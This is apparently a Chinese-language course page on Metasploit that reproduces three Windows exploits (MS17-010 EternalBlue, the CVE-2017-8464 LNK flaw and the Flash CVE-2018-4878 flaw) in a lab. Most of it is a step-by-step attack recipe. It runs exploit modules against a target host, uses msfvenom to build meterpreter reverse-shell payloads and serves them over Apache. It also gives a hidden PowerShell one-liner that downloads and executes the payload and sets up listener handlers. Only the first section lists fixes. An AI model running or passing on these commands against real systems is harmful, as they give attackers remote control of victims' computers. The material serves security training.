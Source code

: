 ```yaml
---
slug: /net-security/10/10
---
```




Kali MSF（The Metasploit Framework），开源的漏洞利用和测试工具。

MSF 提供 MSFconsole 接口：

![](http://img.wukaipeng.com/2024/02/06-235229-gbrJi1-image-20240206235227871.png)

## MS17-010 漏洞

### 漏洞描述

永恒之蓝漏洞（MS17-010），它的爆发源于 WannaCry 勒索病毒的诞生，该病毒是不法分子利用 NSA（National Security Agency，美国国家安全局）泄露的漏洞“EternalBlue”（永恒之蓝）进行改造而成。

该漏洞可以通过 TCP 的 139 和 445 端口，攻击 Windows 系统的 SMB 服务，造成远程代码执行。

MS17-010 漏洞主要是针对于 Windows7 及以前的操作系统。

### 漏洞复现

Win7 需要满足这四个条件：

1. 关闭防火墙
2. 使用 SMBv1 协议
3. 缺少 MS17-010 补丁
4. 允许匿名 IPC &dollar; 和管道符 

> 从 MSDN 下载的镜像默认满足第 2、3 点
>
> 对于第 4 点，用 `window + R` 打开 run 程序，输入 `gpedit.msc` 打开本地策略编辑器
>
> 关闭「限制对命令管道和共享的匿名访问」：
>
> ![](http://img.wukaipeng.com/2024/02/08-235041-pDmfFl-image-20240208235041088.png)
>
> 改完之后重启电脑



首先进入 msfconsole

```bash
msfconsole
```

接下来搜索该漏洞利用，可以搜到四个可利用模块，先用第一个：

```bash
search MS17-010
use 0
```

查看所需的配置

```bash
show options
```

设置一下缺少的配置：



![](http://img.wukaipeng.com/2024/02/08-235705-lRXkJy-image-20240208235705660.png)

```bash
set rhosts 172.16.26.1
```

攻击

```bash
exploit
```



修复方法：

1️⃣ 部署安全产品

2️⃣ 打补丁

3️⃣ 关端口

4️⃣ Windows 防火墙做白名单策略

## 远程命令执行漏洞 CVE-2017-8464（震网三代）

### 漏洞描述

2017 年 6 月 13 日，微软官方发布编号为 CVE-2017-8464 的漏洞公告，官方介绍 Windows 系统在解析快捷
方式时存在远程执行任意代码的高危漏洞，黑客可以通过 U 盘、网络共享等途径触发漏洞，完全控制用
户系统，安全风险高危。

Windows 系统使用二进制解析。LNK 文件，当恶意二进制代码被系统识别执行时即可实现远程代码执行，
由于是在 explorer.exe 进程中运行，所以 load 进内存时与当前用户具有相同权限。

攻击者利用这一解析过程将包含恶意二进制的代码附带进可移动驱动器（或远程共享过程中），受害者
使用 powershell 解析 .LNK 文件后即被黑客所控制。

成功利用此漏洞的攻击者可能会获得与本地用户相同的用户权限。

### 漏洞利用

1. 在 kali 中利用 msfvenom 生成一个反弹 shell

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.26.129 lport=4444 -f psh-reflection > ~/magedu.ps1
```

![](http://img.wukaipeng.com/2024/02/08-175726-y2WWfT-image-20240208175725260.png)

在 Home 目录可以看到新生成的 `magedu.ps1` 文件

将该文件复制到 `/var/www/html` 文件夹中，目的是让该木马文件被访问

```bash
cp ~/magedu.ps1 /var/www/html 
```

在 kali 中启动 Apache 服务（默认端口为 80）

```bash
service apache2 start
```

启动后在目标机器上可访问该地址到 `megadu.psq` 木马文件：

![](http://img.wukaipeng.com/2024/02/08-230617-vbqQTv-image-20240208230617185.png)

接着在目标机器上创建快捷方式：

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://172.16.26.129/magedu.ps1');test.ps1"
```

![](http://img.wukaipeng.com/2024/02/08-230541-drFSv2-image-20240208230541033.png)

在 kali 创建反弹 shell：

```bash
msfconsole
use exploit/multi/handler   //侦听模块
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.26.129
show options
```

在目标机器上打开快捷方式，kali 这边就能看到已经攻击成功了：

![](http://img.wukaipeng.com/2024/02/08-230807-XTDY8x-image-20240208230807213.png)

输入 `screenshot` 命令，可以看到截图成功：

![](http://img.wukaipeng.com/2024/02/08-232542-8cWNkk-image-20240208232542173.png)

## Flash 漏洞 CVE-2018-4878

### 漏洞描述

2018年2月1号，Adobe官方发布安全通报（APSA18-01），声明 Adobe Flash 28.0.0.137 及其之前的版本，存在高危漏洞（CVE-2018-4878）。

攻击者通过构造特殊的Flash链接，当用户用浏览器/邮件/Office访问此 Flash 链接时，会被“远程代码执行”，并且直接被 getshell。

参考链接：https://blog.51cto.com/chenxinjie/2093653

### 漏洞利用

下载工具：

生成攻击代码

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.26.129 lport=4445  -f python>magedu_shellcode.txt
```

将生成代码替换到 python脚本中：

![](http://img.wukaipeng.com/2024/02/13-140651-EiUoJO-image-20240213140651325.png)



执行脚本：

![](http://img.wukaipeng.com/2024/02/13-140746-MF6F8s-image-20240213140746713.png)

将生成的脚本复制到  `/var/www/html` 中，并启动 apache 服务器

![](http://img.wukaipeng.com/2024/02/13-141103-V53UJz-image-20240213141103378.png)

```
service apache2 start
```

启动监听

```
msfconsole                         
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 172.16.26.129               
set lport 4445
exploit
```



目标机器上安装 Flash

![](http://img.wukaipeng.com/2024/02/13-140452-kjifgr-image-20240213140452183.png)

在目标机器上打开 `172.16.26.129/index2.html`

![](http://img.wukaipeng.com/2024/02/13-140538-NZ6GrL-image-20240213140538664.png)

利用成功：

![](http://img.wukaipeng.com/2024/02/13-134936-TTJ3ak-image-20240213134935625.png)












